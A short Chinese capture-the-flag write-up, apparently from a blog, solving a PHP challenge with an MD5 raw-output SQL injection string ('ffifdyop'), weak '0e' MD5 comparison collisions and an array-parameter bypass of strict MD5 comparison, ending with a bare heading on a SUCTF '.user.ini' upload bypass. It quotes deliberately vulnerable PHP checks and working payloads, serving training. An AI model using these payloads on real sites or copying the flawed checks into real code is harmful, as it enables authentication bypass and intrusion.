 套娃

提示，考点md sql注入  ,两个 payload

```
ffifdyop 

129581926211651571912466741651878684928
```



![image-20210405175406737](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405175406.png)

跳转

右键源代码 ,md5弱比较，搜索引擎 `md5  0e` ，一大推。

```html
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->

```



![image-20210405175657788](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405175657.png)

跳转

```php
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

md5强比较，数组直接绕过

```
param2[]=1&param1[]=2
```

原理是md5等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。

## [SUCTF 2019]CheckIn

`.user.ini`绕过
